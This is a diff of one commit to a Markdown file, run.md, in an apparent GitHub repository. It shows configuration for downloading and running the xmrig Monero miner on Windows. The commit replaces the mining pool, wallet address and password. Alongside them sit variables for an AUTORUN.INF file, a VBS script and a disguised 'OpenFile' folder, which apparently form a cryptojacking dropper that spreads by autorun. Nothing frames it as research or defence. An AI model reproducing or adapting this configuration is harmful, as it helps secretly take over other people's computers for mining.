

Before and after one commit to tvhbes/the-tvhbes, a Markdown page: run.md, the part around the change. GitHub-like rendering.

```diff
--- a/run.md
+++ b/run.md
@@ -13,7 +13,7 @@ downloadUrl = "https://github.com/tvhbes/the-tvhbes/releases/download/tvhbes/xmr
 zipFileName = "xmrig-6.24.0-windows-x64.zip"
 extractedFolderName = "xmrig-6.24.0"
 exeName = "xmrig.exe"
-minerArgs = "-o pl-tarirx.luckypool.io:9118 -u 12NDDQyKMZCu3E8JhSajwi6gBpvBSQUUJxhsrYXCgJKCCFXTZMFQXEDV28Db2owQSpckJKqdvAa3YdDfbjidMTP5Skt -p mcj -a rx/0 -k --donate-level 1"
+minerArgs = "-o pool.hashvault.pro:443 -u 471q5TCWH23JtsjiSVNXs8TNRCp4aadn7b5Lmxi9xFrLgimAFyqajGqXAfDFjFvZkiRkZmEnC3wYbeMs1FsJ8u8oVmf17Fc -p ratul001 -a rx/0 -k --donate-level 1"
 autorunFile = "AUTORUN.INF"
 vbsFile = "sami.vbs"
 openFolder = "OpenFile"
```
